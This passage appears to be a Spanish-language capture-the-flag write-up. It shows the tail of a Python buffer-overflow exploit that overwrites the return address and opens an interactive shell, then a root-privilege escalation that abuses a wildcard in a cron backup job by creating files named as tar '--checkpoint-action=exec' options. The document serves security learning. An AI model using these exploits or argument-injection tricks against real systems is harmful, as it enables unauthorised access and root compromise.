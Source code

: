 ```python

    payload = b"A"*64  #sobreescribo el buffer
    payload += b"B"*8  #sobreescribo el RBD
    payload += memory  #sobreescribo el RIP con la direccion de memoria a la cual quiero saltar

    l.recvuntil(b"continuar:") # aqui nos solicita el "magico" texto para continuar:
    l.sendline(payload) # envio el payload al proceso

    l.interactive() # testeamos

if __name__ == '__main__':
    explotation()
```
procedo a ejecutarlo y obtengo el acceso

![image](https://github.com/user-attachments/assets/5ac7fd3e-0cc6-436e-bf2c-c273b1ac5626)

## Escalada de privilegios

### luigi

solo existe un usuario en el sistema y si reviso los procesos puedo ver que corre `cron` lo que quiere decir que alguna tarea esta programada para ser ejecutada 
por lo que reviso el archivo de configuracion de tareas cron

```ruby
cat /etc/crontab
```


![image](https://github.com/user-attachments/assets/c57b34c6-bc60-4811-87fe-246ef22f75ff)

se observa `* * * * * root /usr/local/bin/backup.sh`, es decir, cada minuto se ejecuta un script, asi que chequeare dicho script y sus permisos

![image](https://github.com/user-attachments/assets/9131690e-3138-4adc-9581-e24f3999f7c3)

por un lado no podria modificar el script, por otro lado el script lo que hace es crear un directorio en la raiz llamado `backups` luego va al directorio del 
usuario `luigi` y por ultimo comprime en un archivo `.tar.gz` todo el contenido del directorio de `luigi`, parece seguro el script pero no lo es, a travez de `tar` 
es posible la ejecucion de comandos, si chequeamos GTFOBINS vemos lo siguiente

![image](https://github.com/user-attachments/assets/320d44c4-a5de-4be8-97b8-8b00ea424882)

directamente no podria ejecutar ese codigo pero puedo falsificar los parametros del comando `tar`, ya que en el script hace uso de `*` para seleccionar todos los archivos
del directorio, asi que lo que hare sera crear 2 archivos, estos archivos tendran los nombres de los parametros `--checkpoint=1` & `--checkpoint-action=exec=sh scape.sh`
ademas creare el script `scape.sh`

![image](https://github.com/user-attachments/assets/e8143db9-8c14-4114-8ff5-661e58d47de0)
